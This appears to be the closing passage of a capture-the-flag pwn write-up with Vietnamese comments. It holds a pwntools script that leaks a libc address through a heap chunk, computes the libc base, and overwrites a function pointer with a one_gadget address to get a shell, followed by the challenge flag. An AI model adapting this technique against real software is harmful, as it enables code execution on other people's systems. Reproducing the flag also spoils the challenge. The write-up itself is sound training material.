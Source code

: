 ```python
p.sendlineafter(b'idx: ', b'0') # index = 0 là chunk trên á

# tới đây leak libc thôi
p.sendlineafter(b'> ', b'3')
p.sendlineafter(b'Size: ', str(0x500))
p.sendafter(b'Data: ', b'a')
p.recvuntil(b'Data: ') # lúc này Data đang là địa chỉ main_arena
libc_leak =  u64(p.recv(6) + b'\0\0')
libc.address = libc_leak - 0x3ebc61
log.info('libc leak: ' + hex(libc_leak))
log.info('libc base: ' + hex(libc.address))
p.sendlineafter(b'idx: ', b'10')

# Stage 2: tạo shell

one_gadget = libc.address + 0x10a41c 

# Human
p.sendlineafter(b'> ', b'1')
p.sendlineafter(b'Weight: ', b'1') 
p.sendlineafter(b'Age: ', str(one_gadget)) # Age = one_gadet

# robot
p.sendlineafter(b'> ', b'2')
p.sendlineafter(b'Weight: ', b'1')
# fptr = Age = one_gadget

p.interactive()

# DH{130dbd07d09a0dc093c29171c7178545aa9641af8384fea4942d9952ed1b9acd}

```

## Flag 

DH{130dbd07d09a0dc093c29171c7178545aa9641af8384fea4942d9952ed1b9acd}
